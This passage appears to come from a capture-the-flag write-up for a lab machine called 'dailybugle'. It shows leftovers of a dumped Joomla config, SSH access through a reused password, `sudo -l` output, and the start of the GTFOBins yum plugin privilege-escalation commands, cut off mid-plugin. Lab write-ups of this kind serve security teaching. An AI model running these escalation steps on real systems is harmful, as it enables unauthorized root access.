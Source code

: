 ```
	public $MetaTitle = '1';
	public $MetaAuthor = '1';
	public $MetaVersion = '0';
	public $robots = '';
	public $sef = '1';
	public $sef_rewrite = '0';
	public $sef_suffix = '0';
	public $unicodeslugs = '0';
	public $feed_limit = '10';
	public $feed_email = 'none';
	public $log_path = '/var/www/html/administrator/logs';
	public $tmp_path = '/var/www/html/tmp';
	public $lifetime = '15';
	public $session_handler = 'database';
	public $shared_session = '0';
}sh-4.2$ 

```
Luckily for us, in addition to giving us access to the MariaDB database that powers the Joomla instance, this password also allows to log in via `ssh` as `j------n`! 

## Privilege escalation
As a good standard practice, we run `sudo -l` upon gaining user access. In this case, that really pays off:

```
[j------n@dailybugle ~]$ sudo -l
Matching Defaults entries for j------n on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User j------n may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
[j------n@dailybugle ~]$ 

```

Even better, there's an entry for `yum` on [GTFOBins](`https://gtfobins.github.io/gtfobins/yum/#sudo`). Let's escalate our privileges!

```
[j------n@dailybugle ~]$ TF=$(mktemp -d)
[j------n@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[j------n@dailybugle ~]$ 
[j------n@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[j------n@dailybugle ~]$ 
[j------n@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
```